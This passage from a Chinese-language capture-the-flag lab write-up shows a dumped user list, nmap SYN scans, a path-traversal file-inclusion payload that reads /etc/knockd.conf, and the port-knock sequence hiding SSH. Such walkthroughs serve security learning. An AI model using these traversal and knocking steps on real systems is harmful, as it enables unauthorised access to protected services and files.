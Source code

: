     tomc:x:1005:1005:Tom Cat:/home/tomc:/bin/bash 
    jerrym:x:1006:1006:Jerry Mouse:/home/jerrym:/bin/bash 
    wilmaf:x:1007:1007:Wilma Flintstone:/home/wilmaf:/bin/bash 
    bettyr:x:1008:1008:Betty Rubble:/home/bettyr:/bin/bash 
    chandlerb:x:1009:1009:Chandler Bing:/home/chandlerb:/bin/bash 
    joeyt:x:1010:1010:Joey Tribbiani:/home/joeyt:/bin/bash 
    rachelg:x:1011:1011:Rachel Green:/home/rachelg:/bin/bash 
    rossg:x:1012:1012:Ross Geller:/home/rossg:/bin/bash 
    monicag:x:1013:1013:Monica Geller:/home/monicag:/bin/bash 
    phoebeb:x:1014:1014:Phoebe Buffay:/home/phoebeb:/bin/bash 
    scoots:x:1015:1015:Scooter McScoots:/home/scoots:/bin/bash 
    janitor:x:1016:1016:Donald Trump:/home/janitor:/bin/bash 
    janitor2:x:1017:1017:Scott Morrison:/home/janitor2:/bin/bash 
    ```
    
    可以看到用户是`UserDetails`表内的用户，密码可能就是`SSH`登录的密码，虽然扫描不到`SSH`，但是可能还是存在的
    

## **隐藏的SSH**

1. 我们重新扫描一下端口
    
    一开始我们使用的是：`nmap -sT -min-rate 10000 -p- 192.168.75.180` 即建立完TCP链接后才表示有该端口
    
    我们重新使用：`nmap -sS -min-rate 10000 -p- 192.168.75.180` 即在建立TCP前的三次握手协议中的第一步，我们发送一个SYN包看对方是否回复，`SYN/ACK`表示端口在监听 (开放)， 该端口就被标记为被过滤`filtered`
    
    ```python
    nmap -sS -min-rate 10000 -p- 192.168.75.180
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 13:45 CST
    Nmap scan report for 192.168.75.180
    Host is up (0.00011s latency).
    Not shown: 65533 closed tcp ports (reset)
    PORT   STATE    SERVICE
    22/tcp filtered ssh
    80/tcp open     http
    MAC Address: 00:0C:29:41:E1:8F (VMware)
    ```
    
    重新扫描后可以看到`SSH`端口是被过滤`filtered` 状态的，所以可能就是存在`SSH`的，但是被防火墙过滤了
    
2. 一般隐藏`SSH`是通过`Knockd`
    
    > https://www.cnblogs.com/guangdelw/p/18402272
    > 
    
    `Knockd` 的配置文件在`/etc/knockd.conf` ，我们包含确定是否是`Knockd`
    
    ```python
    /manage.php?file=../../../../etc/knockd.conf
    ```
    
    成功包含！也就是说通过`Knockd`来隐藏了`SSH`服务
    
    ```python
    File does not exist
    [options] 
    	UseSyslog 
    [openSSH] 
    	sequence = 7469,8475,9842 
    	seq_timeout = 25 
    	command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT 
    	tcpflags = syn 
    [closeSSH] 
    	sequence = 9842,8475,7469 
    	seq_timeout = 25 
    	command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT 
    	tcpflags = syn 
    ```